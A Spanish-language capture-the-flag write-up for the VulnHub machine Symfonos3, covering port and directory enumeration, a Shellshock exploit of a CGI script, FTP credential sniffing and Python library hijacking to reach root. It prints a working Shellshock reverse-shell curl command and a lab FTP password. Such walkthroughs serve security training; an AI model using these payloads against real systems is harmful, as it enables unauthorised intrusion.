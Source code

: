 ```yaml
---
layout: single
title: Symfonos3 - VulnHub
excerpt: "Symfonos3, una máquina virtual de Vulnhub, presenta una vulnerabilidad conocida como Shellshock que nos permitió obtener acceso al sistema. Para la escalada de privilegios,  iniciamos como cerberus y nos infiltramos con el usuario 'hades' al interceptar el tráfico de la máquina. Posteriormente, logramos la escalación a root aprovechando un error de permisos en una biblioteca de Python, también conocido como librari hijacking."
date: 2023-11-03
classes: wide
header:
  teaser: /assets/images/vulnhub-writeup-pinkys/logo_vulnhub.png
  teaser_home_page: true
categories:
  - vulnhub 
  - cxdxnt
tags:  
  - suid
  - rpcbind
  - mount
---
```

![](/assets/images/vulnhub-writeup-pinkys/logo_vulnhub.png)


Symfonos3, una máquina virtual de Vulnhub, presenta una vulnerabilidad conocida como Shellshock que nos permitió obtener acceso al sistema. Para la escalada de privilegios,  iniciamos como cerberus y nos infiltramos con el usuario 'hades' al interceptar el tráfico de la máquina. Posteriormente, logramos la escalación a root aprovechando un error de permisos en una biblioteca de Python, también conocido como librari hijacking.

## Enumeración
Empezamos con un reconocimiento de puertos y servicios a través de la herramienta nmap. En el cual logramos detectar varios servicios.

```bash
# Nmap 7.93 scan initiated Wed Nov  1 07:09:13 2023 as: nmap -sCV -p21,22,80 -oN vulnscan.nmap 192.168.56.15
Nmap scan report for 192.168.56.15
Host is up (0.00042s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     ProFTPD 1.3.5b
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey: 
|   2048 cd64727680517ba8c7fdb266fab6980c (RSA)
|   256 74e59a5a4c1690cad8f7c778e75a8681 (ECDSA)
|_  256 3ce40bb9dbbf018ab79c42bccb1e416b (ED25519)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.25 (Debian)
MAC Address: 08:00:27:1D:20:47 (Oracle VirtualBox virtual NIC)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Nov  1 07:09:20 2023 -- 1 IP address (1 host up) scanned in 7.42 seconds
```


## Analisis 

El punto de partida de la página no da ninguna información solo presenta una imagen qué debajo  del código fuente contiene un mensaje, pero  es indiferente.

![](/assets/images/vulnhub-writeup-symfonos3/symfonos3-mensaje.png)


A continuación realizaremos un ataque de Fuzzing en la parte main de la pagina.

```bash
➜  content ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://192.168.56.15/FUZZ -t 200  -c                  

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.4.1-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://192.168.56.15/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 200
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________

gate                    [Status: 301, Size: 313, Words: 20, Lines: 10, Duration: 19ms]
                        [Status: 200, Size: 241, Words: 24, Lines: 23, Duration: 22ms]
server-status           [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 19ms]
```

Es recomendable incluir una barra al final durante la fase de fuzzing, ya que en ocasiones esto puede revelar directorios adicionales.

```bash
➜  content ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://192.168.56.15/FUZZ/ -t 200  -c

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.4.1-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://192.168.56.15/FUZZ/
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 200
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________

icons                   [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 17ms]
cgi-bin                 [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 19ms]
gate                    [Status: 200, Size: 202, Words: 18, Lines: 21, Duration: 10ms]
```

Procedemos a realizar fuzzing en cgi-bin

```bash
➜  content ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://192.168.56.15/cgi-bin/FUZZ -t 200  -c

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.4.1-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://192.168.56.15/cgi-bin/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 200
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________

                        [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 26ms]
underworld              [Status: 200, Size: 63, Words: 14, Lines: 2, Duration: 290ms]
```

## Shell- cerberus

Hacktricks nos informa maneras de poder explotar un CGI-BIN el ataque es conocido como shellsocker

![](/assets/images/vulnhub-writeup-symfonos3/symfonos3-shellshock.png)

Ejercemos una reverse shell 


```bash
curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/192.168.56.1/443 0>&1' http://192.168.56.15/cgi-bin/underworld
```

Una vez dentro del sistema procedo a utilizar pspy64. ¿Por qué? Básicamente procedí a realizar una enumeración manual y no logre encontrar nada, y al lanzar linpeas.sh tampoco me arrojo nada interesante.

![](/assets/images/vulnhub-writeup-symfonos3/symfonos3-trafico.png)

Observamos un proceso de autenticación en FTP en curso. Para aprovechar esta situación, podríamos emplear una herramienta para interceptar todo el tráfico y capturar las contraseñas. En este caso, estamos utilizando la interfaz 'lo'.

![](/assets/images/vulnhub-writeup-symfonos3/symfonos3-interfaces.png)

Encontramos credenciales interesantes.

![](/assets/images/vulnhub-writeup-symfonos3/symfonos3-log.png)

En la captura anterior de pspy64, observamos que el usuario root está ejecutando el script ftpclient.py, sin embargo, carecemos de permisos de escritura en dicho script.


```bash
hades@symfonos3:/opt/ftpclient$ ls -la
total 16
drwxr-x--- 2 root hades 4096 Apr  6  2020 .
drwxr-xr-x 3 root root  4096 Jul 20  2019 ..
-rw-r--r-- 1 root hades  262 Apr  6  2020 ftpclient.py
-rw-r--r-- 1 root hades  251 Nov  1 13:46 statuscheck.txt
hades@symfonos3:/opt/ftpclient$ cat ftpclient.py 
import ftplib

ftp = ftplib.FTP('127.0.0.1')
ftp.login(user='hades', passwd='PTpZTfU4vxgzvRBE')

ftp.cwd('/srv/ftp/')

def upload():
    filename = '/opt/client/statuscheck.txt'
    ftp.storbinary('STOR '+filename, open(filename, 'rb'))
    ftp.quit()

upload()
hades@symfonos3:/opt/ftpclient$ 
```

Iniciamos un análisis de permisos en la única biblioteca que el script expone.

![](/assets/images/vulnhub-writeup-symfonos3/symfonos3-libreria.png)

Después de obtener los permisos, notamos que el grupo 'gods' tiene permisos de escritura en la biblioteca. Dado que 'hades' forma parte de este grupo, procedemos a identificar la función utilizada por la biblioteca para el inicio de sesión y ejecutamos código malicioso.

![](/assets/images/vulnhub-writeup-symfonos3/symfonos3-codigo.png)


### Shell - root 

Finalmente obtuvimos root.





